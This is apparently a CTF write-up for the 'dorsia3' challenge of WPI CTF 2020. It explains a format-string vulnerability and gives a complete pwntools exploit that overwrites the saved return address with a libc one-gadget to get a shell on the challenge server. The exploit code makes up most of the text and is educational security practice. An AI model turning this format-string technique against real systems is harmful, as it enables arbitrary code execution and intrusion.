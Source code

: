 # dorsia3 250pts (55 solves) #

![TASK](https://imgur.com/vFmQYat.png)

We have a format string vulnerability and a leak of the buffer and system address so my idea was to overwrite the saved eip with the address of a one gadget from libc , we have all what we need so here is my full exploit.

I'll post a detailed writeup about this task in the next few days on my personal website so stay tuned (my twitter @BelkahlaAhmed1)!

![CODE](https://imgur.com/GSFhTJW.png)

```python

from pwn import *
def pad(str):
        return str+(60-len(str))*"B"
#p=process("./nanoprint")
p=remote("dorsia3.wpictf.xyz",31337)
data=p.recvline()
BUFFER=int(data[:10],16)
SYSTEM=int(data[-11:-1],16)+288
log.info("Buffer starts: "+hex(BUFFER))
log.info("System address: "+hex(SYSTEM))
BASE=SYSTEM-0x3d200
one_gadget=BASE+0x3d0e0
RET=BUFFER+0x71
RET2=RET+2
log.info("Writing to: "+hex(RET))
payload="B"
payload+=p32(RET)
payload+=p32(RET2)
off1=(one_gadget & 0xffff)-9
off2=int(hex(one_gadget & 0xffff0000)[:-4],16)-(one_gadget & 0xffff)
log.info("one gadget address: "+hex(one_gadget))
log.info("offset1 and 2: "+str(off1)+"|"+str(off2))
payload+="%"+str(off1)+"x"
payload+="%7$hn"
payload+="%"+str(off2)+"x"
payload+="%8$hn"
#pause()
p.sendline(pad(payload))
p.interactive()

#Offset buffer-ret : +0x71
#offset fmt 7

```

**Note:** : Here is the [binary](https://github.com/kahla-sec/CTF-Writeups/blob/master/WPI%20CTF%202020/dorsia3/nanoprint) and the [libc](https://github.com/kahla-sec/CTF-Writeups/blob/master/WPI%20CTF%202020/dorsia3/libc.so.6)

For any questions you can contact me on twitter @BelkahlaAhmed1 and thank you :D
